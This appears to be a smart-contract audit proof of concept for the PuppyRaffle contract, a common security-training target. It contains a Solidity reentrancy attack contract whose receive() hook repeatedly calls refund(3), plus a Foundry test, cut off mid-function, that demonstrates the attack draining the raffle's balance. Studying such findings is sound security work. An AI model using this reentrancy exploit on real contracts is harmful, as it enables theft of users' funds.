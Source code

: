 ```
contract Attack {
    address private immutable puppyRaffleAddress;

    constructor(address _puppyRaffleAddress) {
        puppyRaffleAddress = _puppyRaffleAddress;
    }

    // simulate response from ERC721 Receiver to avoid revert
    function onERC721Received(address, address, uint256, bytes calldata) external pure returns (bytes4) {
        return 0x150b7a02;
    }

    receive() external payable {
        // specify lower limit in order to avoid revert. In this example it's 0.2 ETH.
        if ((puppyRaffleAddress).balance > 0.2 ether) {
            PuppyRaffle(puppyRaffleAddress).refund(3);
        }
    }
}
```
Here is a test for the attack:
```
Attack attack1;
Attack attack2;
Attack attack3;
Attack attack4;

...

function setUp() public {
    puppyRaffle = new PuppyRaffle(
        entranceFee,
        feeAddress,
        duration
    );

    attack1 = new Attack(address(puppyRaffle));
    attack2 = new Attack(address(puppyRaffle));
    attack3 = new Attack(address(puppyRaffle));
    attack4 = new Attack(address(puppyRaffle));
}
```

```
function testCanPerformReentrancyAttack() public {
    address[] memory players = new address[](4);
    players[0] = address(attack1);
    players[1] = address(attack2);
    players[2] = address(attack3);
    players[3] = address(attack4);

    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

    vm.warp(block.timestamp + duration + 1);
    vm.roll(block.number + 1);

    console.log("PuppyRaffle balance before: %s", address(puppyRaffle).balance);
    console.log("Attacker balance before: %s", address(attack4).balance);

    vm.prank(address(attack4));
    puppyRaffle.refund(3);

    console.log("PuppyRaffle balance after: %s", address(puppyRaffle).balance);
```